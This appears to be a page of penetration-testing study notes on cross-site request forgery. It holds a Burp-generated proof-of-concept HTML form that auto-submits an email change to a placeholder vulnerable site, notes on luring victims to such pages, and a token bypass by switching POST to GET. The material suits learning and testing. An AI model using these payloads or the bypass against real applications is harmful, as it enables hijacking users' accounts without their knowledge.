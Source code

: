 <br>

### Example Payload:  CSRF attack with POST request

* We need to create a form that contains all the required parameters to submit the request successfully.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

<br>

---
---

<br>

## Cheat Sheet

<br>

### No CSRF Protections

* When no CSRF protections are in place in a state-changing request, we can create an appropriate HTML page that will submit a request to the vulnerable application.

    * Payloads for CSRF GET requests can be a self-contained attack within a URL.  An attacker does not need to host the exploit code in their server.  They just need to send the malicious link to the victim user via social engineering techniques.
    
    * Payloads for CSRF POST requests, we need to create a form with all the data needed to process the request successfully.  An attacker needs to host this code somewhere and send a link of that malicious site, to the victim user. The browser will automatically add the Authenticated Session Cookie(s) to the request, when the user clicks on the link.

<br>

### CSRF Protection Bypass - HTTP Method Change

* When the application is using a CSRF Token in a body parameter of a POST request, change the HTTP request method to GET and leave out the CSRF Token parameter.  This can potentially bypass the CSRF defense put in place.  

* This can happen due to frameworks only implementing CSRF protection on state-changing requests, and state-changing requests should only be done with POST method not GET.
